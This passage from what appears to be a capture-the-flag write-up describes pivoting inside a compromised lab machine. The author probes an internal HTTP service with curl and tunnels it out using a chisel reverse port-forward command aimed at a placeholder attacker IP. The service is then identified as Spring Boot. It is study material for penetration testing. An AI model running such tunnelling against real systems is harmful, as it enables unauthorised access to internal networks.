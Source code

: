 To check if it's an http server we can use curl, we had to download another static binary since it's not in the system:
![Curl request to 172.18.0.1:8888.](/images/shaker/host-curl.png)

It's throwing us a Bad Request error, but it seems to reply, so we know we have something to investigate.

To take a better look at this service, we decide to use [chisel](https://github.com/jpillora/chisel) to port forward port 8888 to localhost:8888 on our attack machine.

We use busybox once again to download chisel on the machine.

On our machine we start a chisel server on port 9999:

![Starting the chisel server](/images/shaker/chisel-server.png)

On the target machine we start a client that forwards port 172.18.0.1:8888 to the chisel server.

```bash
./chisel client ATTACKER_IP_ADDRESS:9999 R:8888:172.18.0.1:8888`
```

On our server we can confirm this is working:

![Chisel server receives the port forward.](/images/shaker/chisel-listening.png)

Let's see what our browser tells us.

![Whitelabel Error Page.](/images/shaker/whitelabel-error.png)

If we look up this error we can quickly find out that this is Spring Boot.

First google result:
